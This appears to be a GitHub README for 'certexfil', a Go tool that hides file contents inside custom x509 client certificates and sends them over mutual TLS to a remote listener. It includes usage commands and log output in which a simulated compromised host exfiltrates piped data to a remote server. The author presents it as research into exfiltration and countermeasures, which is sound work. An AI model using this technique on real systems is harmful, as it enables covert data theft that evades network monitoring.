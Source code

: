 # X509 Digital Certificate Exfiltration Exploration

## Overview

My extensive exploration into data exfiltration and related countermeasures has led to this initial foray into Go. The aim is to devise a swift method for transforming a payload (via file reading) into a custom x509 digital certificate.

Further details can be found at [this Medium article](https://medium.com/@jeanmichel.amblat/abusing-certificates-for-data-exfiltration-d6bff2533cd0).

For those new to certificates and mTLS, these insightful resources are recommended:

* [TLS, X509, and Mutual Authentication Explained](https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401)
* [A Step-by-Step Guide to mTLS in Go](https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go)

Certexfil operates in three modes: CA generation, client, and listener.

* `--ca` initializes a CA for certificate creation and authentication.
* `--payload` incorporates a file payload into a new client certificate for mTLS with a listener service.
* `--listen` launches a service that validates mTLS clients and extracts embedded payloads.

## Usage

### Setting Up CA and Listener on a Remote Server

To create `server_cert.pem` and `server_key.pem` for mTLS:

```shell
somewhere$ certexfil -ca -ecdsa-curve P521 --host remote.host.com
```

Ensure the certexfil binary and ./CERTS directory are on your remote server. Then, initiate the mTLS listener:

remoteserver$ ./certexfil --listen

Client or Simulated Compromised Host

Embedding output as a payload:

06:46:00 jma@wintermute Go-Workspace → echo 'w00t w00t' | certexfil --host remote.server.com  --payload -
2019/05/31 18:48:27 [*] Reading from stdin..
2019/05/31 18:48:27 [D] Payload (raw)  --> w00t w00t...	(9 bytes)
2019/05/31 18:48:27 [D] Payload (Prepare()) --> �...		(31 bytes)
2019/05/31 18:48:27 [*] Generated custom cert with payload
Oo

This format should make it easier to use as a README or other documentation.

## Contact

* @Sourcefrenchy

